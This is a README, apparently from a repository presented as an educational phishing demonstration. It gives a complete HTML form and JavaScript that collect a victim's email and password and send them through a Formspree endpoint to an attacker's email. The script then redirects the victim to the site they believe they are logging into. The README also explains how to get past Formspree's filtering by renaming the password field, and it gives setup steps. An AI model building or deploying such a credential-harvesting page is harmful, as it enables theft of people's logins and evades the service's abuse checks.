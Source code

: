 **THIS DEMONSTRATION IS STRICTLY INTENDED FOR EDUCATIONAL PURPOSES ONLY. THE USE OF THIS TECHNIQUE FOR MALICIOUS PURPOSES IS ILLEGAL AND UNETHICAL.**

## Overview 

Phishing is a form of cyber attack where an attacker impersonates a legitimate entity or website to trick individuals into providing sensitive information, such as login credentials or personal details. This demonstration simulates a basic phishing scenario in which user input is captured through a malicious form.

This implementation utilizes [Formspree](https://www.formspree.io), a form-handling service that collects submitted form data and sends it to the attacker’s email. While this demonstration is intentionally simple, attackers typically create more sophisticated and convincing websites that mimic legitimate services.

## How it works

### What the victim sees

The page collects input from the user, in this case an email and password. 

```
<form id="phishy-form" action="https://formspree.io/f/{form_id}" method="POST">

  <label>Email:</label>
  <input type="email" name="email" required />

  <label>Password:</label>
  <input type="text" name="userkey" required />

  <button id="my-form-button">Submit</button>
</form>
```

Notice the `name` attribute in the password input is assigned the value `userkey`. This is because Formspree will detect and block suspicious valuse like `password`.

### Behind the scenes

When the user submits the form, the data is sent to Formspree, where it is forwarded to the attacker’s designated email address. After the form is submitted, the victim is redirected to the website they presumably think they are logging into.

```
document
    .getElementById("phishy-form")
    .addEventListener("submit", async function (e) {
      e.preventDefault();
      let formData = new FormData(this);

      let response = await fetch("https://formspree.io/f/{form_id}", {
        method: "POST",
        body: formData,
        headers: { Accept: "application/json" },
      });

      if (response.ok) {
        window.location.href = "https://www.example.com/";
      } 
    });
```

### Setup

1. Visit [Formspree](https://www.formspree.io) and create a new form endpoint. You will be provided with a unique URL that will receive the form submissions.

2. In the provided [HTML code](index.html), replace `<your formspree url>` with the Formspree URL you received. 

### Try it

Save the HTML file and run it locally on your machine. Enter some random info into form (e.g., me@example.com & password123), and click "Submit." Check the email associated with your Formspree account; you should see the data you submitted.